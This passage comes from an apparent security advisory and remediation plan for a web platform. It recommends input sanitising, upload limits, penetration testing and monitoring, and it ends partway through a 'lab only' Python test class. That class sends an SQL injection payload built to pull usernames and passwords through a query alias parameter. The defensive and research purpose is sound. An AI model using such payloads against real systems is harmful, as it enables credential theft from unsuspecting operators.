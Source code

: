 5. **Input Validation**
   ```python
   # Sanitize all user inputs
   from django.utils.html import escape
   from bleach import clean

   def sanitize_input(user_input):
       return clean(escape(user_input))
   ```

6. **File Upload Restrictions**
   ```python
   ALLOWED_FILE_TYPES = ['.csv', '.json', '.xml']
   MAX_FILE_SIZE = 10 * 1024 * 1024  # 10MB
   SCAN_UPLOADS_FOR_MALWARE = True
   ```

### **LONG-TERM (Within 1 month):**

7. **Penetration Testing**
   - Hire security firm for full audit
   - Test all 27 SQL injection vectors
   - Validate XSS fixes

8. **Security Monitoring**
   - Deploy SIEM (Security Information and Event Management)
   - Alert on suspicious query patterns
   - Log all admin actions

9. **Dependency Management**
   - Implement Dependabot
   - Weekly security update review
   - Automated vulnerability scanning

---

## 📋 **PROOF-OF-CONCEPT TESTING (Lab Only)**

### **Ethical Testing Framework:**

```python
# lab_exploit_test.py
"""
ONLY run in isolated lab environment!
For academic security research only.
"""

class OEPlatformExploitTester:
    def __init__(self, test_instance_url):
        """
        test_instance_url: YOUR OWN test deployment, not production!
        """
        self.url = test_instance_url

    def test_sql_injection_ghsa_m9g8(self):
        """Test GHSA-m9g8-fxxm-xg86 SQL injection"""
        print("[*] Testing SQL injection in column aliases...")

        # Malicious payload
        payload = {
            'alias': "id); SELECT username, password FROM users--"
        }

        response = requests.get(f"{self.url}/api/query", params=payload)

        if "username" in response.text:
```
